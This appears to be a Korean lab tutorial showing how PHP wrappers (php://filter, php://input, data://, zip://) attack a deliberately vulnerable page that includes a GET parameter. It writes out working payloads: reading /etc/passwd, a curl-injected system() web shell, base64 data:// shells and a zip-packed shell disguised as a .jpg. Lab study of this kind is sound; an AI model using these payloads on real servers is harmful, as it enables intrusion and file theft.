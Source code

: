 # PHP wrapper

php는 다양한 [wrappers](https://www.php.net/manual/en/wrappers.php)를 지원한다.

그 중 php, zip, data를 이용하여 공격해보자.

| wrapper   | description                   |
| :---      | :---                          |
| php://    | Accessing various I/O streams |
| data://   | Data (RFC 2397)               |
| zip://    | Compression Streams           |

# **INDEX**

**1. [환경 구성](#환경-구성)**

**2. [php](#php)**

 - [filter](#filter)

 - [input](#input)

**3. [data](#data)**

**4. [zip](#zip)**


# **환경 구성**

| Type          | Version                   |
| :---          | :---                      |
| OS            | Ubuntu 20.04.3 LTS        |
| Architecture  | x86-64                    |
| IP            | 192.168.0.58              |
| apache2       | 2.4.41-4ubuntu3.10        |
| php           | 7.4.3                     |
| php-zip       | 2:7.4+75                  |

apache와 php를 설치하자.

```sh
root@ubuntu:~# apt -y install apache2 php
```

php wrapper에 대한 공격에 취약한 페이지(index.php)를 만들자.

```php
<?php
    if (empty($_GET['page'])) echo 'PHP wrapper';
    else include $_GET['page'];
?>
```


# **php**

## **filter**

php://filter/resource="file name"을 통해 서버의 로컬 파일을 읽을 수 있다.

    http://192.168.0.58/index.php?page=php://filter/resource=/etc/passwd

파일의 출력 결과를 base64나 rot13으로 문자열을 변환하여 읽을 수 있다.

    http://192.168.0.58/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd

    http://192.168.0.58/index.php?page=php://filter/string.rot13/resource=/etc/passwd


취약한 페이지가 다음과 같다면 NULL(%00)을 붙혀서 php가 아닌 다른 파일을 읽을 수 있었지만,

```php
include $_GET['page']."php";
```

[php 5.3.4 Release](https://www.php.net/releases/5_3_4.php)부터는 NULL을 넣어도 우회할 수 없게 되었다.

## **input**

php://input을 이용하여 php 함수를 실행시킬 수 있으며, POST 방식으로 데이터를 넣어주어야 한다.

php://input을 사용하기 위해서는 php.ini의 allow_url_include가 On로 되어 있어야 한다.

    curl -X POST --data "<?php system(\$_GET['cmd']); ?>" "http://192.168.0.58/index.php?page=php://input&cmd=id"


# **data**

data wrapper를 사용하기 위해서는 php.ini의 allow_url_include가 On로 되어 있어야 한다.

data://text/plain,"문자열"을 통해 html문서를 출력할 수 있지만

php 함수를 통해 운영체제의 명령어를 실행시킬 수 있다.

    http://192.168.0.58/index.php?page=data://text/plain,<?php system($_GET['cmd']);?>&cmd=id

php 데이터를 base64로 인코딩하여 실행시킬 수도 있다.

    http://192.168.0.58/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=id

# **zip**

zip wrapper를 사용하기 위해서 추가적인 패키지를 설치하자.

```sh
root@ubuntu:~# apt -y install php-zip
```

패키지가 설치되었다면 php.ini에서 extension=zip.so가 활성화되어 있어야 한다.

zip wrapper로 압축파일 속 파일을 실행시킬 수 있는데, 그러기 위한 디렉토리 쓰기 권한이 있어야 한다.

apache2의 계정(www-data)이 압축을 풀 디렉토리의 권한을 주자.

```sh
root@ubuntu:~# chown www-data:www-data /var/www/html
```

압축파일에 넣을 php를 작성하자.

```php
<?php system($_GET['cmd']);?>
```

해당 파일을 압축하고 shell.php를 지워버리자.

```sh
root@ubuntu:/var/www/html# zip shell.zip shell.php
root@ubuntu:/var/www/html# rm -rf shell.php
```

이후 zip://"zip file name"#"file name"을 통해 zip안의 파일을 실행시킬 수 있다.

    http://192.168.0.58/index.php?page=zip://shell.zip%23shell.php&cmd=id

파일의 확장자를 변경해도 상관없다.

```sh
root@ubuntu:/var/www/html# mv shell.zip shell.jpg
```

    http://192.168.0.58/index.php?page=zip://shell.jpg%23shell.php&cmd=id
